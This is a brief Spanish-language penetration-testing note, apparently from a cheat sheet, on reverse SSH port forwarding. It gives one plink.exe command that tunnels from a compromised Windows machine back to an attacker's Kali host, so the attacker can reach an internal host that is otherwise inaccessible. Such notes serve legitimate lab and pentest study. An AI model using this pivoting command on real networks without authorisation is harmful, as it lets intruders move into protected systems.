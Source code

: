 ### Dinamic remote port forwarding
Nos conectamos a nuestra maquina atacante mediante ssh y redireccionamos el tráfico a un puerto de una pc inaccesible a un puerto de nuestra máquinola atacante

    plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:<puerto_a_abrir_en_attacker>:<ip_destino>:<puerto> <ip_attacker>
